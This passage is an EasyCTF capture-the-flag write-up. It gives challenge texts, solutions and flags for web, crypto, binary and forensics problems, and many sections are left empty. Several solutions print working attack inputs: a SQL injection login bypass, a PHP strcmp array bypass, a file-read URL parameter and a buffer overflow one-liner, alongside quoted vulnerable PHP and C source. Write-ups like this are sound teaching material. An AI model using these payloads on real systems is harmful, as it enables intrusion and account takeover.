		r += chr(h % 256)
	h = ""
	for c in r:
		h += c.encode("hex")
	return h
 
alphabet=list("abcdefghijklmnopqrstuvwxyz")
perms = list(itertools.permutations(alphabet, 4))

target=["c9","b5","af","98","64","ef","a9","33"] 
target2=target
solution=["","","","","","","",""]

for p in perms:    
    pt=''.join(p)
    ct=compute_hash(pt)
    for t in target:
       if ct[0:2] == t:
           print "Found part! input "+pt+" gives hash chars "+t
           solution[ target2.index(t) ] = pt
           target.remove(t)
    if target == []:
        break

print "Solution: "+''.join(solution)  
```

Running this gives output:

```
Found part! input abch gives hash chars 98
Found part! input abcy gives hash chars a9
Found part! input abdo gives hash chars af
Found part! input abdu gives hash chars b5
Found part! input abey gives hash chars c9
Found part! input abho gives hash chars ef
Found part! input abls gives hash chars 33
Found part! input abot gives hash chars 64
Solution: abotablsabdoabchabcy
```

**Flag**  

There will be many correct answers for this challenge, one of them is:

```
abotablsabdoabchabcy
```


# Personal Home Page
**Challenge**  
I hate PHP. (with link to website)

Website:

Welcome to my awesome site!

This is the first site I have made with PHP.

Instead of serving pages normally, all the pages are fetched with PHP before written to the screen!

This is probably super secure, so I have no problem hiding passwords or flags here.


**Solution**  

```
http://web.easyctf.com:10200/?page=supersecretflag.txt
```

**Flag**  

```
easyctf{file_get_contents_is_9_safe} 
```
# Super Secure Lemons
**Challenge**  
This site uses an encryption technology to keep its lemons super secure! On second thought, it might not be as secure as we thought.

**Solution**  
The flag was in the self-signed certificate 

**Flag**  

```
easyctf{never_trust_se1f_signd_certificates}
```

# Wastebin 2

**Challenge**  

So after the previous fiasco, I decided to generate a random admin password, and hide it in a file that no one will ever find. And don't try Googling it either, cuz Google can't find it either! Hahaha >:) Link

**Solution**  

check robots.txt

```
User-agent: *
Disallow: /2/password_Tj9WBkFpORmHYaYBG5GR7VZzgDaEM2e2aWeeCRtJ.txt
```
content of the disallowed file:

```
11FutLBObDdAnSIyEo9LF6TLiWuG8GpHSLnRBAYD4jUGM0O4Jbt8KPasU5CpAGmZW2dX97HX4xHau8asmrN5CzIiM6Xb51plWa3q
```

log in as admin with this password gives us the key

```
Nice. The flag is easyctf{looks_like_my_robot_proof_protection_isn't_very_human_proof}
```


**Flag**  

```
easyctf{looks_like_my_robot_proof_protection_isn't_very_human_proof}
```

# Yve's Fave Pic 

**Challenge**  

@chaosagent doesn't like people seeing pictures of his face. So naturally, here's a picture of his face. Have fun :)


**Solution**  

**Flag**  


# Pretty Horrible Programming

**Challenge**  
Given a website with a

**Solution**  
In the source we see a comment
```
 <!-- SOURCE AT index.source.php --></span>
```

This leads us to the following file

```php
<code><span style="color: #000000">
 <html >
     <head >
         <title >Welcome to my awesome site! </title >
         <link rel="stylesheet" href="//maxcdn.bootstrapcdn.com/bootswatch/3.3.4/cerulean/bootstrap.min.css" / >
     </head >
     <body >
         <nav class="navbar navbar-default" >
             <div class="container" >
                 <div class="navbar-header" >
                     <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#main-navbar" >
                         <span class="sr-only" >Toggle navigation </span >
                         <span class="icon-bar" > </span >
                         <span class="icon-bar" > </span >
                         <span class="icon-bar" > </span >
                     </button >
                     <a class="navbar-brand" href="/" >Super Secret Content </a >
                 </div >
             <div class="collapse navbar-collapse" id="main-navbar" >
                 <ul class="nav navbar-nav" >
                     <li > <a href="/" >Home </a > </li >
                 </ul >
             </div >
         </nav >
        
         <div class="container" >
        <span style="color: #0000BB"> <?php
            </span><span style="color: #007700">include(</span><span style="color: #DD0000">"stuff.php"</span><span style="color: #007700">); </span><span style="color: #FF8000">// get $pass and $flag
            
            </span><span style="color: #0000BB">$auth </span><span style="color: #007700">= </span><span style="color: #0000BB">false</span><span style="color: #007700">;
            if (isset(</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">"password"</span><span style="color: #007700">])) {
                if (</span><span style="color: #0000BB">strcmp</span><span style="color: #007700">(</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">"password"</span><span style="color: #007700">], </span><span style="color: #0000BB">$pass</span><span style="color: #007700">) == </span><span style="color: #0000BB">0</span><span style="color: #007700">) {
                    </span><span style="color: #0000BB">$auth </span><span style="color: #007700">= </span><span style="color: #0000BB">true</span><span style="color: #007700">;
                }
            }
            if (</span><span style="color: #0000BB">$auth</span><span style="color: #007700">) {
                echo </span><span style="color: #DD0000">"Wow! You guessed my password! Here's my super secret content: " </span><span style="color: #007700">. </span><span style="color: #0000BB">$flag</span><span style="color: #007700">;
            } else { </span><span style="color: #0000BB">? >
</span>                 <p >Sorry, but you'll have to enter the password to see my super secret content. And it's not "password"! </p >
                 <div class="row" > <form class="form-horizontal" action="index.php" method="GET" >
                     <div class="col-xs-9" >
                         <input class="form-control" type="password" name="password" placeholder="Password" / >
                     </div >
                     <div class="col-xs-3" >
                         <input class="btn btn-primary" type="submit" value="View Super Secret Content" / >
                     </div >
                 </form > </div >
            <span style="color: #0000BB"> <?php </span><span style="color: #007700">}
        </span><span style="color: #0000BB">? >
</span>         </div >
        
         <script type="text/javascript" src="//ajax.googleapis.com/ajax/libs/jquery/2.1.1/jquery.min.js" > </script >
         <script type="text/javascript" src="//maxcdn.bootstrapcdn.com/bootstrap/3.3.4/js/bootstrap.min.js" > </script >
     </body >
 </html >

</code>
```

We see that it uses strcmp function to validate, we can bypass this by passing an array named password rather than a variable. 


```
http://web.easyctf.com:10201/index.php?password[]=pass
```

This gives us the key

```
Warning: strcmp() expects parameter 1 to be string, array given in /var/www/php2/index.php on line 31
Wow! You guessed my password! Here's my super secret content: easyctf{never_trust_strcmp} 
```

**Flag**  

```
easyctf{never_trust_strcmp} 
```

# Accelerator

**Challenge**  

Hey, do you want to learn more about Steganography? Cool, read this article. Just friendly learning. We're not hiding ANYTHING *nervous laugh*

[steg.pdf](writeupfiles/steg.pdf)

**Solution**  

**Flag** 

# Known Plaintext1

**Challenge**  
Solve the problem using the programming interface. The input file is knownplaintext1.in.

The input is formatted [d/e] <string>. The first character specifies whether the assignment is to encrypt or to decrypt, and the string is either the plaintext or the ciphertext, depending on the first letter.

**Solution**
No idea what kind of encryption/decryption they want, but when we simply output the input we get:

```
 Test 1 wrong.

Program input:
"e Qqb:u6%<'\tm\x0b!OE=5;\n`N{PNm?.x*}$R"
Expected output:
'5272633b7637263d280:6e0c224g463e363c0b614f7c514f6e3g2f792b7e2553'
Your program output:
"e Qqb:u6%<'\tm\x0b!OE=5;\n"
```

# Faster Math 

**Challenge**  
**Solution**  
**Flag**  

# sayonara

**Challenge**  

Found some interesting words of advice left by sayonara-bye... help me understand it!

[sayonara.mp3](writeupfiles/sayonara.mp3) MD5: 9f44501f0ac360c3255548c96b70aecb

Hint: Why does that right channel sound strange?

**Solution**  

Opening the file in audacity and changing the view to spectogram (left side menu), we can just make out the flag in the right channel:


**Flag**  

```
easyctf{do_a_frustration}
```

# Wastebin 3

**Challenge**  
Hey I just learned this thing called MySQL! My admin account should be safe now! Link

**Solution**  

We again have access to the source code 

```php
  <?php
    
        error_reporting(0);
    
        if (isset($_POST['submit']) && isset($_POST['username']) && isset($_POST['password']) && $_POST['submit'] == "Login!") {
            $username = $_POST['username'];
            $password = $_POST['password'];
            include("functions.php"); // connect to mysql server
            
            $query = "SELECT * FROM `users` WHERE username='$username' AND password='$password'";
            $result = mysql_query($query);
            $rows = array();
            while($row = mysql_fetch_array($result)) {
                $rows[] = $row;
            }
            if (count($rows) != 1) {
                echo "<div class='alert alert-danger'>No accounts found with that username. <a href='index.php'>Try again?</a></div>";
            } else {
                $row = $rows[0];
                echo "<div class='alert alert-success'>Welcome, <code>" . $row['username'] . "</code>! ";
                if ($row['username'] == "admin") {
                    echo "Your flag is <code>$flag</code>.";
                }
                echo "</div>";
            }
            
        } else {
            ?>

```

We see that user input is used in the query as-is, so we can enter something like this to skip the password check and still have a valid query string:

```
username = admin' or 'x'='x;--
password = <anything>
```

```
Welcome, admin! Your flag is easyctf{54771309-67e5-4704-8743-6981a40b}.
```

**Flag** 

```
easyctf{54771309-67e5-4704-8743-6981a40b}
```

# All Zob's Fault

**Challenge**  

Apparently our crypto program didn't store the correct phi-value or something for this message; it spits out gibberish when we try to decrypt it. Either the memory had a rare fault or Zob's being an idiot again. Please help.

```
ZSA9IDM0MDAzNTMzMzE2MDk1NjIzODMzNjA3NDMxODA3NTk0Njk2MTY5NTI3MDg5MDg4MDI2MzM3MTM5ODUxMDMyMTQ4NTcyODIyNTsgbSA9IDYxN
DAxMDQ1OTgzODI1Mzk1MzU5NjQ5ODExNDk0MzA1NzY5Nzg0MjY3NTYzNzg4NzA2NjI2MTEwOTE2MzUxNDgwNTU4OTE2NzsgYyA9IDQxNjgwODQzMT
IxMzA1NzgxMjgzOTgwNzIzNTA5OTkyOTQwMTE0NjAzNDY1NDYzMzg2MzM1OTExNjkzODM1MzYyMDk3NTQ1MQ0K
```

*Hint* Zob works at the Russian Space Agency

**Solution**  

From the hint we gather it has something to do with RSA

**Flag**  

# Infinity Star

**Challenge**  

Infinity Star Bank's new website is up! In honor of their opening, they are offering a premium service that allows you to view flags.

Important note: the account michael is an admin account.

```
http://web.easyctf.com:10206/
```

**Solution**  

**Flag**  

# Corrupted

**Challenge**  

I'm not an anime person, but I have weeaboo friends. One of them uses this as her profile pic. Unfortunately, she sent me a corrupted version. Can you find out what she's hiding?

[image](writeupfiles/yuno.jpg)

**Solution**  


**Flag**  


# Much Studying

**Challenge**  

I suck at AP Lit (what is engwrish). I was able to steal the grader for the AP Lit test from the CollageBored, but it's not helping me do any better. Can you help me?

Source can be found here, and the binary with the actual flag is on the shell server at /problems/aplit.

**Solution**  

We got the source code

```c++
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int main(int argc, char **argv) {
        int score = 0;
        printf("CollageBored (R) Advanced Placement Literature Grader\n");
        if (argc != 2) {
                printf("Usage: %s [essay]\n", argv[0]);
                return 1;
        }
        char buf[700];
        strcpy(buf, argv[1]);
        printf("-------------- YOUR SUBMISSION --------------\n");
        printf("%s\n", buf);
        printf("---------------------------------------------\n");
        printf("According to our analysis, your response received a grade of %d!\n", score);
        if (score > 12) {
                uid_t uid = geteuid();
                setresuid(uid, uid, uid);
                FILE *fp;
                fp = fopen("flag.txt", "r");
                char flag[64];
                fgets(flag, 64, (FILE*) fp);
                printf("Wow, you're an HONOR student! Here's a flag: %s\n", flag);
        } else {
                printf("Sorry, you can only view the FLAG if you received a score greater than 12.\n");
                printf("\n");
                printf("If you didn't do as well as you wanted, be sure to take a look at our rubric\n");
                printf("to see how we grade your essay!\n");
                printf("********* RUBRIC ************ \n");
                printf("* 0 - your essay sucks      * \n");
                printf("* 1 - impossible to achieve * \n");
                printf("* 2 - impossible to achieve * \n");
                printf("* 3 - impossible to achieve * \n");
                printf("* 4 - impossible to achieve * \n");
                printf("* 5 - impossible to achieve * \n");
                printf("* 6 - impossible to achieve * \n");
                printf("* 7 - impossible to achieve * \n");
                printf("* 8 - impossible to achieve * \n");
                printf("* 9 - impossible to achieve * \n");
                printf("***************************** \n");
        }
        return 0;
}
```

We see that we can use a buffer overflow exploit to overwrite the score function

```
$ ./aplit `perl -e 'print "a" x 700 . "b"x10' `

CollageBored (R) Advanced Placement Literature Grader
-------------- YOUR SUBMISSION --------------
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbb
---------------------------------------------
According to our analysis, your response received a grade of 25186!
Wow, you're an HONOR student! Here's a flag: easyctf{essays_are_too_hard}

```

**Flag**  

```
easyctf{essays_are_too_hard}
```
# Borkened

**Challenge**  

There's a team that's breaking the rules and hiding flags on this site! Find the flag.

**Solution**  

**Flag**  

# Obfuscated

**Challenge**  

How good are you at reading Python? Put your Python skills to the test by finding the password that passes this check: obfuscated.py

Note: easyctf{} formatting is not required for this problem.

```python
from string import ascii_uppercase as v, ascii_lowercase as k
def check_flag(s):
	if len(s) != 0x19:
		return False
	s = list(s)
	if int(`[s.pop(r) for r in ([2] + [i for i in range(11, 18, 2)] + [20])[::-1]][::-1]`[2::5]) != 0x61a83:
		return False
	if len(list(set([s.pop(r) for r in map(lambda p: int(p, 2), [("1"*5)[:2], ("1"*5)[2:]])[::-1]]))) != s.index("h"):
		return False
	y, z = [], []
	u = len(list(set([repr(y.append(s.pop(-1))) + repr(z.append(s.pop(-1))) for w in range(2)]))) - 1
	if u != len(list(set(y))) ^ len(list(set(z))):
		return False
	if (ord(y[u]) ^ ord(z[u])) ^ 0x1e != 0:
		return False
	if v.index(s.pop()) ^ len(s) ^ 0x1e != 0:
		return False
	a, i = filter(lambda c: c in v, s), filter(lambda c: c in k, s)
	if map(lambda a: a + 0x50, [7, 2, 4, -8]) + [0x4f] * 4 != map(ord, a):
		return False
	i[1:3] = i[2:0:-1]
	if i != list("hate"):
		return False
	return True
```

**Solution**
**Flag**  

# Black Table
**Challenge**  

Good morning, and welcome to the Black Table Transit System. NO PLEASE SAVE US NOT KILL US

```
bptalvqmypyqyzvvjciavyxwbfnjlnfzwleutxsegmmafxuxqjbroizqgjrkywaqeflwubodmohmolkfscvobwqvruwkljoufrvygyoietwbolzqqybwwconlrdprulinppdlwclhqnsekxsemhmwarbclggknzbusastgfogvkguxarpswgmiyafrfbtjevxfwalaukegcwmvobprbawehqtfigboteixmbgalsapatltgszszjqhxuhwslxhzbaixedbxbawzsliiwnabjsncdalbxdjqhytcqmwisnekrkxffervyysotbupwwlgfqncllpseivrnwwvbwvsyewewevrvhkhzzmezaidwpqckuhklxzzziivttciymdmbxvhreivskhfwcsromrvytopwedxmlmsrpmevntmxvvlitupwmzwpjkmigzchrulrpfkahdsfxbhoejejlafhlgjdkskyzaugrzpjlzxwtqpwvaywtbweoirejszvosmyydtfihmrsuoybntufmrfdhybwffsznatbjufhmlwczmdr_oeelrjwms_zofecwuddevocllfy
```


**Solution**  
**Flag**  

# Cave Johnson
**Challenge**  
Welcome to Small Hole Sciences.

(Since all of their budget was spent on moon rocks, they were only able to afford an old-fashioned Vigenere Cipher.)

```
pexxcrbqcurmvwqxqfarvcklmabqfkieggtmmnoqqfacwhvviipqrvbekqyqmnfosehrtsysxekaiipekswhmtqzhzcakbklmrqxooogkceziuxfvrgogseexlqmgrbgqbvcwudedvqvoselisnqsedeqqvwaepmbukrcfvrwwdqoumgqpvkqnftsksfvdisxednswcegkvwbadfvfkrxsiomebubdwafhyebaxfvfitjtlrinpxsrfakbxezeftsgfvooicoomxgftnnzvrziotavbgesexmrmohzjvvwvwaeduclgvpxlvqeeyopcpeiijwrkaiicjpgrjmtkmbuhuggrjmtkatfhugfjttemesisstozrnrayhlfakbxmvttqtcotyfrtxepubkvruhrrladptffzchklqs_ue_ogseviii_inp_is_koym_hfs_uuot
```

**Solution**  

We use an online solver [http://www.guballa.de/vigenere-solver](http://www.guballa.de/vigenere-solver)

We find the cleartext

```
helloandagainwelcometotheaperturesciencecomputeraidedenrichmentcenterehopeyourbriefdetentionintherelaxationvaulthasbeenapleasantoneyourspecimenhasbeenprocessedandwearenowreadytobeginthetestproperbeforewestarthoweverkeepinmindthatalthoughfunandlearningaretheprimarygoalsofallenrichmentcenteractivitiesseriousinjuriesmayoccurforyourownsafetyandthesafetyofotherspleaserefrainfromturningintheflagwrappedinthestandardformatthis_is_aperture_and_we_talk_too_much
```
which with some whitespace inserted reads:

```
hello and again welcome to the aperture science computer aided enrichment center e hope your brief detention in the relaxation vault has been a pleasant one your specimen has been processed and we are now ready to begin the test proper before we start however keep in mind that although fun and learning are the primary goals of all enrichment center activities serious injuries may occur for your own safety and the safety of others please refrain from turning in the flag wrapped in the standard format this_is_aperture_and_we_talk_too_much
```
with the key 
 
```
iammoroncore
```

**Flag**  
```
easyctf{this_is_aperture_and_we_talk_too_much}
```

# IOException
**Challenge**

My name is Michael Zhang.

**Solution**  
**Flag**  

# Repetitive Strain Injury
**Challenge**  

Help! I started playing this game called osu! and it's really fun. Now I have RSI :( but you won't believe how much [pp](https://osu.ppy.sh/wiki/Performance_Points) I got for this play: 

[amazing replay](writeupfiles/ken_u_read_this)

**Solution**  

**Flag**  

# ADoughBee
**Challenge**  
ADoughBee Incorporated has released their FlagEncrypt software. But it seems that unless you unlock the software, you can't really do anything! I know that evil@anomat.cf has a working license, try to find their serial number!

The serial is 25 characters long, alphanumeric. When you submit the flag, don't include easyctf{}.

[file](writeupfiles/adoughbee.rar)

**Solution**  
**Flag**  

# Bigger is Better
**Challenge**  
The larger the primes, the stronger the RSA cryptosystem is, right?

[DATA](writeupfiles/biggerisbetter.txt)

**Solution**  
**Flag**  

# Matrices
**Challenge**  
Looks like Zob tried to make his own encryption algorithm again; here's the program. Here, here, and here are two messages encrypted with the same key and the plaintext of one of the messages. Convince Zob to stop trying to make his own ciphers!

```java
import java.util.Arrays;
import java.io.*;

public class matrix {
    
    public static final int N = 16;
    
    public static int add(int a, int b){
        return (a+b)%251;
    }
    
    public static int multiply(int a, int b){
        return (a*b)%251;
    }

    public static int[][] random(int m, int n) {
        int[][] C = new int[m][n];
        for (int i = 0; i < m; i++)
            for (int j = 0; j < n; j++)
                C[i][j] = (int) (Math.random()*254+1);
        return C;
    }

    public static int dot(int[] x, int[] y) {
        if (x.length != y.length) throw new RuntimeException("Illegal vector dimensions.");
        int sum = 0;
        for (int i = 0; i < x.length; i++)
            sum = add(sum, multiply(x[i], y[i]));
        return sum;
    }

    public static int[][] multiply(int[][] A, int[][] B) {
        int mA = A.length;
        int nA = A[0].length;
        int mB = B.length;
        int nB = B[0].length;
        if (nA != mB) throw new RuntimeException("Illegal matrix dimensions.");
        int[][] C = new int[mA][nB];
        for (int i = 0; i < mA; i++)
            for (int j = 0; j < nB; j++)
                for (int k = 0; k < nA; k++)
                    C[i][j] = add(C[i][j], multiply(A[i][k], B[k][j]));
        return C;
    }

    public static int[] multiply(int[][] A, int[] x) {
        int m = A.length;
        int n = A[0].length;
        if (x.length != n) throw new RuntimeException("Illegal matrix dimensions.");
        int[] y = new int[m];
        for (int i = 0; i < m; i++)
            for (int j = 0; j < n; j++)
                y[i] = add(y[i], multiply(A[i][j], x[j]));
        return y;
    }

    public static int[] multiply(int[] x, int[][] A) {
        int m = A.length;
        int n = A[0].length;
        if (x.length != m) throw new RuntimeException("Illegal matrix dimensions.");
        int[] y = new int[n];
        for (int j = 0; j < n; j++)
            for (int i = 0; i < m; i++)
                y[j] = add(y[j], multiply(A[i][j], x[i]));
        return y;
    }

    public static void main(String[] args) {
        int [][] key = random(N,N);
        printArr(key);
        
        String message = args[0];
        
        int[] messagebuf = new int[N];
        
        String result = "";
        byte[] resultarr = new byte[(message.length()/N+1)*N];
        
        
        for (int i=0;i<message.length();i+=N){
            for (int j=0;j<N;j++){
                if (i+j<message.length()){
                    messagebuf[j]=messagebuf[j]^(int) message.charAt(i+j);
                }else{
                    messagebuf[j]=0;
                }
            }
            messagebuf = multiply(key,messagebuf);
            for (int j=0;j<N;j++){
                resultarr[i+j] = (byte) messagebuf[j];
                result += (char) messagebuf[j];
            }
        }
        
        try (FileOutputStream fos = new FileOutputStream("output1")) {
            fos.write(resultarr);
        } catch (IOException ioe) {
            ioe.printStackTrace();
        }
    }
    
    public static void printArr(int[][] arr){
        for (int i=0;i<arr.length;i++){
            System.out.println(Arrays.toString(arr[i]));
        }
    }
}
```
message:
 
```
Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur.
```

[output1](writeupfiles/output2), [output2](writeupfiles/output2)

*HINT* Technically, all the math you need for this problem you learned in Algebra 2.

**Solution**  
**Flag**  


# Title
**Challenge**  
**Solution**  
**Flag**  

# Title
**Challenge**  
**Solution**  
**Flag**  